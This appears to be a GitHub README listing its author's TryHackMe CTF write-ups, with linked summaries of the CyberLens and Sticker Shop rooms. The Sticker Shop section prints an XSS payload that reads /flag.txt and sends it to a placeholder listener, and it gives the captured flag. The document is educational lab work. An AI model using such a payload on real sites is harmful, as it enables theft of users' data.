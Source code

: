 # 🧠 CyberSec Writeups & Solutions by Achref Rahali

Welcome to my personal repository of cybersecurity challenges, cracking problems, and hacking labs that I’ve tackled and documented. This repo serves as a logbook of my progress through CTFs, TryHackMe rooms, and real-world scenarios to sharpen my offensive security skills.

---

## 🧠 Solved Challenges
### 📌 [CyberLens – TryHackMe](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
A walkthrough of the CyberLens room on TryHackMe where I tackled:
- OSINT
- Steganography
- Network forensics
- Basic RE

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)

📌 **Topics covered:**
- OSINT & Recon
- Steganography
- Network Forensics
- Reverse Engineering

📝 **Tools used:**
- Wireshark
- strings
- stegseek
- exiftool
- and more...

  🛡️ **Lessons Learned:**
- [x] Always enumerate all provided media and files — hidden messages are common in CTFs.
- [x] Metadata and file formats can reveal more than expected (e.g., EXIF, hidden ZIPs).
- [x] Don't skip packet analysis — the answer is often buried in plain sight within the pcap.
- [x] Automation tools like `stegseek` or `binwalk` can save massive time when exploring binary data.

---

### 📌 [The Sticker Shop – TryHackMe](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)
An XSS-based exploitation of a vulnerable feedback form to exfiltrate a protected flag from the webserver.

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)  
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)

📌 **Topics covered:**
- XSS (Cross-Site Scripting)
- Access Control Bypass
- Same-Origin Policy (SOP) Exploitation
- JavaScript Payload Crafting

🛠️ **Exploitation Steps:**
1. Recon with `nmap` and `gobuster` to discover exposed HTTP service and directories.
2. Identified XSS via the feedback form using a `<script>alert(1)</script>` test.
3. Injected payload to fetch `/flag.txt` and leak it to a remote listener.
4. Captured the flag using a Python HTTP server.
5. Decoded exfiltrated content: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

🧪 **Payload Used:**
```html
<script>
  fetch('/flag.txt')
    .then(r => r.text())
    .then(data => {
      window.location = 'http://MY_IP:8081/receive?flag=' + encodeURIComponent(data);
    });
</script>
```

🛡️ **Lessons Learned:**

- [x] Input sanitization is critical.
- [x] Same-Origin Policy can be abused if proper authentication isn’t enforced.
- [x] Feedback forms are common entry points for reflected XSS.

---

## 🔜 Coming Soon

I’ll be adding more CTF rooms, reverse engineering challenges, and crackmes, such as:
- VulnHub boxes
- Hack The Box writeups
- Custom malware analysis tasks
- Password cracking scenarios

---

## 📚 Why This Repo?

This repo helps me:
- Track my learning in infosec
- Improve my documentation skills
- Share my knowledge with others starting out in ethical hacking

---

## ⚠️ Legal Notice

> This repository is strictly for educational purposes. All challenges and techniques are practiced on **legally authorized platforms** like TryHackMe, HTB, or offline VMs. Do not attempt to use these techniques on unauthorized systems.

---


